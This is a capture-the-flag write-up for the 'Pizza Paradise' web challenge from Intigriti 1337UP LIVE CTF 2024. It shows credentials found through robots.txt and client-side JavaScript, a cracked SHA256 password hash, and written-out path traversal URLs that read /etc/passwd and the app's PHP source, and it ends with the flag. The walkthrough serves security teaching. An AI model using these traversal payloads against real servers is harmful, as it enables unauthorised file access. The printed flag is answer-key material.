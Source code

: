 ```yaml
---
name: Pizza Paradise (2024)
event: Intigriti 1337UP LIVE CTF 2024
category: Web
description: Writeup for Pizza Paradise (Web) - 1337UP LIVE CTF (2024) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Pizza Paradise

## Video walkthrough

[![VIDEO](https://img.youtube.com/vi/qPxKyYrf9p4/0.jpg)](https://youtu.be/qPxKyYrf9p4 "Robots.txt, Hash Cracking and Path Traversal")

## Challenge Description

> Something weird going on at this pizza store!!

## Solution

Players arrive at an online pizza store (AI making some tasty looking pizzas these days 🤤).

![](./images/0.PNG)

There is appears to be nothing of interest, but `/robots.txt` has something.

{% code overflow="wrap" %}

```txt
User-agent: *
Disallow: /secret_172346606e1d24062e891d537e917a90.html
Disallow: /assets/
```

{% endcode %}

It's some kind of top secret login portal 🕵️‍♂️

![](./images/1.PNG)

Check the page source.

{% code overflow="wrap" %}

```js
function hashPassword(password) {
    return CryptoJS.SHA256(password).toString();
}

function validate() {
    const username = document.getElementById("username").value;
    const password = document.getElementById("password").value;

    const credentials = getCredentials();
    const passwordHash = hashPassword(password);

    if (username === credentials.username && passwordHash === credentials.passwordHash) {
        return true;
    } else {
        alert("Invalid credentials!");
        return false;
    }
}
```

{% endcode %}

The `getCredentials()` function is in `/assets/js/auth.js`.

{% code overflow="wrap" %}

```js
const validUsername = "agent_1337";
const validPasswordHash = "91a915b6bdcfb47045859288a9e2bd651af246f07a083f11958550056bed8eac";

function getCredentials() {
    return {
        username: validUsername,
        passwordHash: validPasswordHash,
    };
}
```

{% endcode %}

Crack the SHA256 hash with `hashcat`, `john` or [crackstation](https://crackstation.net).

{% code overflow="wrap" %}

```txt
agent_1337:intel420
```

{% endcode %}

Now we get access to the portal and can download some secret images.

![](./images/2.PNG)

The download function makes a GET request.

{% code overflow="wrap" %}

```
https://pizzaparadise.ctf.intigriti.io/topsecret_a9aedc6c39f654e55275ad8e65e316b3.php?download=/assets/images/topsecret1.png
```

{% endcode %}

Maybe we can try `/etc/passwd`

{% code overflow="wrap" %}

```
https://pizzaparadise.ctf.intigriti.io/topsecret_a9aedc6c39f654e55275ad8e65e316b3.php?download=/etc/passwd
```

{% endcode %}

But we get an error: `File path not allowed!`

With some trial and error, it's clear that removing `/assets/images/` will cause problems. Let's try path traversal instead.

{% code overflow="wrap" %}

```
https://pizzaparadise.ctf.intigriti.io/topsecret_a9aedc6c39f654e55275ad8e65e316b3.php?download=/assets/images/../../../../../etc/passwd
```

{% endcode %}

It works! We could try common locations for a `flag.txt` _or_ we could download the PHP source code of the web app 💡

{% code overflow="wrap" %}

```
https://pizzaparadise.ctf.intigriti.io/topsecret_a9aedc6c39f654e55275ad8e65e316b3.php?download=/assets/images/../../topsecret_a9aedc6c39f654e55275ad8e65e316b3.php
```

{% endcode %}

Inside, we find the flag!

{% code overflow="wrap" %}

```php
$flag = 'INTIGRITI{70p_53cr37_m15510n_c0mpl373}';
```

{% endcode %}

Flag: `INTIGRITI{70p_53cr37_m15510n_c0mpl373}`
